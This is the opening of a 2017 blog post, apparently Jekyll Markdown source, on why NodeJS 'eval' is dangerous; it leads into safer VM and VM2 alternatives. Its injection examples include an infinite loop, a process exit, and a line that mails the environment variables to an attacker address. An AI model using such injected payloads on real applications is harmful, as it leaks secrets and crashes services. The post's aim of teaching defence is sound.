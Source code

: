 ```yaml
---
layout: post
title: "Eval no more: a journey through NodeJS' VM module, VM2 and Expression Language"
date: 2017-03-04 21:28
comments: true
categories: [nodejs, javascript, vm, eval]
description: "A safer alternative to implement expression parsers in NodeJS: let's look at eval, VM and VM2."
---
```


How many times have you heard of [how evil eval is](https://www.google.ae/search?q=eval&oq=eval&aqs=chrome..69i57j69i60l3j0l2.673j0j7&sourceid=chrome&ie=UTF-8#q=eval+is+evil)? What if I told you that there is a safe alternative in the modern, server-side
JavaScript ecosystem?



## The problem with eval

{% img right /images/security.png %}

`eval` is not necessary evil -- you *just* need to make sure you're dealing with
trusted inputs.

The problem lies in that "*just*" -- you might be reading that
input from many sources and, if any of those sources gets compromised, you then
open up the door for a very straightforward code injection{% fn_ref 1 %}.

Funny things `eval` can do:

``` js
// Guess what?
eval('while(true) console.log(1)')
console.log('The application goes on...')

// What if the attacker doesn't want to waste time?
eval('process.exit(0)')
console.log('The application goes on...')

// Let's escalate...
eval('require("node-mailer").mail("attacker@example.com", JSON.stringify(process.ENV))')
console.log('The application goes on...')

// And, for the lolz:
eval('eval = undefined')
console.log('The application goes on...')
```

The last example is the one I like the most: there an attacker would re-define
the `eval` function itself, causing the application to crash (`TypeError: eval is not a function`)
the next time that block of code is executed.

Now that we've seen some basic examples on how you could easily tear down an
application that uses `eval` too eagerly, let's take a step back and try
to figure out when it could be a good idea to execute "external" code
on-the-fly.
